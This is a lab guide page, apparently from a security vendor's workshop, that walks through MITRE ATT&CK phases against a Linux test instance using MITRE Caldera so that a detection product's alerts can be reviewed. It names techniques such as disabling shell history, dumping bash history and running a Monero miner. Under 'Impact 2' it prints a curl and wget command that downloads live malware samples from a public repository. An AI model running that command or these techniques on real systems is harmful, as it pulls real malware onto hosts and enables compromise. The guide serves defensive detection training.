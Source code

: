 ```yaml
---
title: "Linux"
chapter: false
weight: 51
pre: "<b>5.1 </b>"
---
```


<b>Before you start this lab, make sure the C1WS Policy attached to the Linux Instance is the "demo > visionone > prevention mode" policy.</b>

### ATT&CK Phases
#### Reconnaissance
This step was skipped because we know the target of our attack (Windows and Linux Instances)

---
#### Resource Development
We used Mitre Caldera to generate the payloads used to compromise our targets

---
#### Initial Access and Execution
We deployed the malicious payloads manually to the Windows and Linux Instances. In a Real-world scenario, we could have used a Malicious Email message, including the link to the malicious files. In this way, compromising the target computers.

---
#### Persistence
Using Mitre Caldera, you can deploy additional backdoors that will ensure you can keep accessing the affected computers in the future:

In our case, we can run a remote instruction on the affected Linux computer and deploy a secondary agent (bot).

{{< youtube id="926KXvQiQ-0" >}}

---
#### Privilege Escalation
Using Mitre Caldera, you can deploy the Technique "Weak executable files (T1574.010) - Locate and infect files with weak but executable perms". It will help to to expand the impact of this attack and get additional permissions on the affected OS.

{{< youtube id="NOQU4tKmqiQ" >}}

---
#### Defense Evasion
Using Mitre Caldera, you can deploy the Technique "Avoid logs (T1070.003) - Stop terminal from logging history". In this way, the instructions you are executing will not be logged by the OS, making hard to the SOC Team to investigate and track the malicious instructions executed on this attack.

{{< youtube id="pFkTQmuWyGw" >}}

---
#### Credential Access
Using Mitre Caldera, you can deploy the Technique "Dump history (T1552.003) - Get contents of bash history". You may find sensitive information with this technique.

{{< youtube id="2KH_YkmH_6A" >}}

---
#### Discovery
Using Mitre Caldera, you can deploy the Technique "Find System Network Connections (T1049) - Find System Network Connections". You may find additional targets for this attack (Lateral Movement for example).

{{< youtube id="CbS21y0QvD4" >}}

---
#### Lateral Movement
Under development..


---
#### Command & Control
You can use the same tatics used on the step "Persistence", or even using other customm tools to interact with the C&C Server.

---
#### Collection
Using Mitre Caldera, you can deploy the Technique "Find files (T1005) - Locate files deemed sensitive". Using this technique you can search for sensitive date hosted on the affected computers.

{{< youtube id="AREqI9QRxsQ" >}}

---
#### Exfiltration
Under development..

---
#### Impact 1
Using Mitre Caldera, you can deploy the Techniques "Crypto (Monero) Mining (T1496) - Download and execute Monero miner (xmrig) for 1 minute" and "Leave note (T1491) - Create a text file for the user to find". With this two techniques, you can create an impact that will affect the performance and expose the affected server to other risks, and also leave a note to tell the target of the attack about your intentions and what you have done so far.

{{< youtube id="zfGupkq1HVw" >}}

#### Impact 2
Using Mitre Caldera, you can deploy the following manual instruction. It will make the affected computer to download 0-day malwares from live repositories in the internet.

        curl http://vxvault.net/URL_List.php > urls.txt
        wget -i urls.txt --tries=1

{{< youtube id="ldIEFNi7EiE" >}}

---
## Reviewing the Detections 
Review your Vision One Portal (Risk Insights and XDR / Workbenchs and OAT) searching for the evidences of the instructions executed during this demo.